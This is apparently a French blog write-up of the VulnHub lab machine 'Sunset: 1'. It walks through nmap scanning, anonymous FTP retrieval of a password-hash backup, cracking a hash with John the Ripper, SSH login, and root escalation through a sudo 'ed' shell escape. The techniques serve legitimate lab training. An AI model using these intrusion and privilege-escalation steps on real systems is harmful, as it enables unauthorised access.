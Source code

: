 ```yaml
---
title: "CTT Sunset: 1"
date: 2021-04-29
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/sunset-1,339
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.63`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Sunset1 && cd Sunset1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
Nmap scan report for sunset.home (192.168.1.63)
Host is up (0.00053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.1.63:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un serveur **FTP** sur le port **21** et un serveur **SSH** sur le port **22**. On commence donc par énumérer le serveur **FTP** en tant qu'utilisateur anonyme.

```bash
$ ftp
open 192.168.1.63
Connected to 192.168.1.63.
220 pyftpdlib 1.5.5 ready.
Name (192.168.1.63:kali): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls -la
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
```

Un fichier nommé "backup" est disponible.

```bash
ftp> get backup
local: backup remote: backup
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
1062 bytes received in 0.00 secs (668.2406 kB/s)
ftp> exit
221 Goodbye.
```

Regardons ce que contient le fichier "backup".

```bash
$ cat backup
CREDENTIALS:
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
```

Cela ressemble fortement à du **SHA-512**... Dans un nouveau fichier texte, on isole le compte de "sunset" (étant donné que c'est le nom du CTF) `echo 'sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/' >> sunset.txt` (bien mettre des simples quotes et non des doubles quotes) afin de lancer **John the Ripper** pour le déchiffrer.

```bash
$ john sunset.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
0g 0:00:00:52 46,72% 2/3 (ETA: 16:58:06) 0g/s 1370p/s 1370c/s 1370C/s srediaR..aeerdnA
Proceeding with incremental:ASCII
cheer14          (sunset)
```

Après quelques minutes, **John** nous trouve le mot de passe "cheer14".

## Pénétration

Maintenant que nous avons le mot de passe de l'utilisateur "sunset", on peut pénétrer sur le serveur via **SSH**.

```bash
$ ssh sunset@$IP
sunset@192.168.1.63's password: cheer14
```

Dans le répertoire de cet utilisateur, on trouve le flag user.

```bash
$ cat user.txt
5b5b8e9b01ef27a1cc0a2d5fa87d7190
```

## Escalation

Regardons les privilèges de cet utilsateur.

```bash
$ sudo -l
(root) NOPASSWD: /usr/bin/ed
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/ed), on trouve la solution.

```bash
$ sudo ed
$ !/bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Désormais "root", dans le répertoire de ce dernier, on trouve le flag final.

```bash
$ cat /root/flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```
